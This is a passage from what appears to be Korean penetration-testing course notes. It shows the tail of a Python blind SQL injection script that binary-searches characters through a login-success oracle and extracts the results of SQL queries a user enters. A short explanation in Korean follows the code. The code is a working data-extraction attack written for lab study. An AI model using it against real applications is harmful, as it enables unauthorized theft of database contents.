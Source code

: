 ```python
    return None
  mid = (low + high) // 2
  if is_true(row, idx, mid):
    return find_char(row, idx, mid + 1, high)
  else:
    if is_true(row, idx, mid - 1):
      return chr(mid)
    else:
      return find_char(row, idx, low, mid - 1)

def extract_data():
  print("[*] Extracting...")
  row = 0
  res = []
  while True:
    data, idx = "", 1
    while True:
      char = find_char(row, idx)
      if char is None:
        break
      data += char
      idx += 1
    if not data:
      break
    res.append(data)
    row += 1
  return res

while True:
  sql = input("Enter the SQL query to extract data.(Press 'q' to quit.)\nSQL > ")
  if sql == "q":
    break
  print(f"[+] Data extracted: {", ".join(extract_data())}\n")
```

Blind SQL Injection 기법의 핵심은 페이로드에 삽입한 조건의 참/거짓 여부를 판단하는 데 있으며, 위의 경우에는 로그인 성공 여부를 통해 판별한다. 따라서 응답 결과에 `Logged In` 텍스트가 포함되면 참, 그렇지 않으면 거짓을 반환하는 함수를 사용하였다. `SELECT DATABASE()`문은 테이블이 아닌 상수를 반환하기 때문에 뒤의 `LIMIT` 절이 무시되는 특징이 있었으므로, 무한 루프 방지를 위해 예외 조건을 삽입하였다.

스크립트를 실행하면 사용자가 SQL 쿼리를 입력할 수 있는 인터페이스를 제공하며, 입력한 쿼리를 기반으로 데이터를 추출하여 화면에 출력하는 구조로 설계되어 있다. 실행 결과는 다음과 같다.

![SQL Injection 4](/data/Penetration%20Testing%20%7C%20Week%207/40.png)
